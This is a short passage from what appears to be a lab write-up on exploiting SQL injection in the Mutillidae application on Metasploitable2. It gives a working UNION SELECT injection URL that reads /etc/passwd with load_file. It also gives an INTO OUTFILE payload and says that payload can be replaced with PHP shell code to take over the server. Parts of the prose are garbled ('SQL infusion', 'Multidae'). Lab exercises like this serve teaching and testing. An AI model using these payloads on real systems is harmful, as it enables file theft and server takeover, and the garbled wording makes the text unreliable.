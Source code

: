 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![379093817-d2729d6f-16d5-43a9-af96-3dd70a2f29f5](https://github.com/user-attachments/assets/c555b251-27b4-4f28-a17c-18bf5a0628e0)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
